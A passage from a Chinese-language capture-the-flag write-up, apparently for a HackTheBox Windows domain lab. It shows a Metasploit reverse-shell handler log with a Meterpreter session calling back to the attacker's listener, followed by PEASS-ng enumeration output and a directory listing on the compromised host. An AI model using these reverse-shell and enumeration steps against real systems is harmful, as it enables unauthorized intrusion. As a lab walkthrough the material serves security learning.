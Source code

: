 就可以收到回连的 shell

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:9999
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Meterpreter session 42 opened (10.10.16.8:9999 -> 10.10.11.17:59040) at 2024-04-07 23:50:39 +0800

meterpreter > sysinfo
Computer        : MS01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : MIST
Logged On Users : 6
Meterpreter     : x64/windows
```

## User - MS01\svc_web

直接上 PEASS-ng 脚本，以下为有价值信息

```plaintext
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
Domain:                    mist.htb
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB5034613
                           [02]: KB5035857
                           [03]: KB5035970
[+] DNS CACHE
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 192.168.100.100
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 10.10.11.17
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 192.168.100.100
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 10.10.11.17
```

### 环境探测

发现一个文件夹 `C:\Common Applications`

```plaintext
Listing: C:\Common Applications
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1118  fil   2021-05-08 16:15:16 +0800  Calculator.lnk
100666/rw-rw-rw-  1175  fil   2021-05-08 06:14:00 +0800  Notepad.lnk
100666/rw-rw-rw-  1171  fil   2021-05-08 06:15:00 +0800  Wordpad.lnk
100666/rw-rw-rw-  190   fil   2024-03-10 17:46:01 +0800  desktop.ini
```

